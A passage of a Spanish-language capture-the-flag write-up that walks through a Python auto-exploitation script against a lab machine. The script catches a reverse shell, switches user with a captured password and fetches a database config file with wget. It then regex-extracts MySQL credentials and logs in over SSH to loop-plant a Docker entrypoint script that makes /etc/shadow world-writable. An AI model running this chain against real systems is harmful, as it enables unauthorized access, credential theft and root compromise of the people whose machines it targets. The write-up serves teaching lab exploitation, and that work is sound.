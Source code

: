 En la función **Get_Shell** tras recibir la ReverseShell envía el contenido del archivo que contiene la contraseña del usuario **dew** usando **recv** para recibir los datos en fragmentos con los cuales luego crear un archivo que contendrá esos datos.

```python
Get_Shell()
```

```python
def Get_Shell():
	with listen('443', timeout=20) as shell:
		shell.sendline("cd /tmp".encode('utf-8'))
		shell.sendline("su www-adm".encode('utf-8'))
		time.sleep(1)
		shell.sendline(f"{pass_admin}".encode('utf-8'))
		shell.sendline("wget http://172.18.0.101:5000/check_db".encode('utf-8'))
		time.sleep(1)
		shell.sendline("cat check_db".encode('utf-8'))

		datos_recibidos = b""

		while True:
			datos = shell.recv(4096)
			if not datos:
				break
			datos_recibidos += datos

		with open('check_db', 'wb') as f:
			f.write(datos_recibidos)
```

Con el archivo ya creado, en la función **Get_Credentials** utilizando la librería **re** obtiene mediante expresiónes regulares el nombre de usuario y la contraseña guardándolas en las variables **User_drew** y **Pass_drew**.


```python
User_drew, Pass_drew = Get_Credentials()
```

```python
def Get_Credentials():

	with open('check_db', 'r') as file:
		check_db = file.read()

	os.remove("check_db")

	return	re.findall(r'\"MYSQL_USER=(.*?)\"', check_db)[0],re.findall(r'\"MYSQL_ROOT_PASSWORD=(.*?)\"', check_db)[0]
```

Teniendo ya las credenciales, accede vía SSH como el usuario **drew** y realiza un bucle a la montura del contenedor, el cual crea un archivo que le da permisos de ejecución al **/etc/shadow**.

```python
multiprocessing.Process(args=(User_drew,Pass_drew,),target=Drew).start()
```
```python
def Drew(username,password):
	client = paramiko.SSHClient()

	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.110', username=username, password=password)

	client.exec_command("while true; do echo 'chmod 777 /etc/shadow' > /opt/docker-entrypoint.d/test; chmod +x /opt/docker-entrypoint.d/test; sleep 1;done")

```